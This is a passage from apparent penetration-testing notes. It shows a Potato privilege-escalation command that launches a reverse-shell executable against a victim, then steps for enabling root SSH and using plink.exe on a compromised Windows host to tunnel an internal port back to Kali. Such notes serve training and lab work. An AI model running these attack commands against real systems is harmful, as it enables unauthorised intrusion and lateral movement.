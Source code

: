 ```
.\potato.exe -ip <victim-ip> -cmd "C:\..\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

## Port Forwarding

Sometimes it is naturally easier to run exploit code on Kali but <mark style="color:yellow;">the vulnerable program may be listening on an internal port</mark>.

In these cases, <mark style="color:yellow;">we need to forward a port on Kali to the internal port on Windows</mark>.

We can do this using a program called <mark style="color:yellow;">plink.exe</mark>

How to:

1. Modify the /etc/ssh/sshd\_config file to enable root login

```
PermitRootLogin yes
```

2\. Restart the service

```
service ssh restart
```

3\. Transfer plink.exe over to the compromised Windows host

4\. Run plink.exe

```
.\plink.exe root@<kali> -R 445:127.0.0.1:445
enter password:

#you may need to press enter a few times
```

5\. Now anything you do can go through 127.0.0.1&#x20;

























